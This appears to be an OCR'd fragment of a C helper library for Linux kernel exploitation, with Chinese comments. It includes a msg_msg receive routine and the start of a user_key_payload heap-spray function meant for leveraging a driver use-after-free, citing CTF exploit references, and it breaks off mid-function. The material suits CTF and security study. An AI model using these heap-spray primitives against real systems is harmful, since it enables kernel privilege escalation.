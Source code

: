 ```c
void *recv_msg_nocopy(int qid, size_t size) {

    void *memdump;

    assert((memdump = malloc(size)) != NULL);

    if(msgrcv(qid, memdump, size, 0, IPC_NOWAIT | MSG_NOERROR) == -1) {
        perror("msgrcv");
        return NULL;
    }

    return memdump;
}



/* struct user_key_payload读
 * 结构体:
 *        struct user_key_payload {
 *        	struct rcu_head	rcu;		// RCU destructor
 *        	unsigned short	datalen;	// length of this data
 *        	char		        data[] __aligned(__alignof__(u64)); // actual data
 *        };
 * 
 * 条件：
 *      1. 驱动中存在UAF，块大小为[0x18, 0x10000]，可以更改内存的[0x10, 0x14)处的值
 * 
 * 参数:
 *      1. spray_addkey():@payload，即用户上传的key内容，被复制到data部分
 *      2. spray_addkey():@size，即内核要申请的data大小,h. 注意，spray_addkey()中，
 * 内核会申请两个大小相近的块，`kvmalloc(@size, GFP_KERNEL)`和
 * `kmalloc(sizeof(struct user_key_payload) + @size, GFP_KERNEL)`
 * 
 * 返回值：
 *      1. spray_addkey():@ret，即创建的key的唯一表示
 * 
 * 参考：
 * https://www.anquanke.com/post/id/228233#h3-10
 * https://github.com/Markakd/n1ctf2020_W2L/blob/main/leak.c
 * https://elixir.bootlin.com/linux/v6.1/source/security/keys/keyctl.c#L74
 * https://elixir.bootlin.com/linux/v6.1/source/security/keys/key.c#L816
 * https://elixir.bootlin.com/linux/v6.1/source/security/keys/user_defined.c#L59
 */
#define KEY_MAX_DESC_SIZE 4096
struct callback_head {
	struct callback_head *next;
	void (*func)(struct callback_head *head);
} __attribute__((aligned(sizeof(void *))));
#define rcu_head callback_head
struct user_key_payload {
	struct rcu_head	rcu;		/* RCU destructor */
	unsigned short	datalen;	/* length of this data */
	char		data[] __attribute__ ((__aligned__(sizeof(__u64)))); /* actual data */
};
key_serial_t spray_addkey(const char *payload, uint32_t size)
{
  char *payload_buf;
  key_serial_t key;

  /* 减去struct user_key_payload头，确保内核申请的大小为
   * @size
   */
  assert(size >= sizeof(struct user_key_payload));
```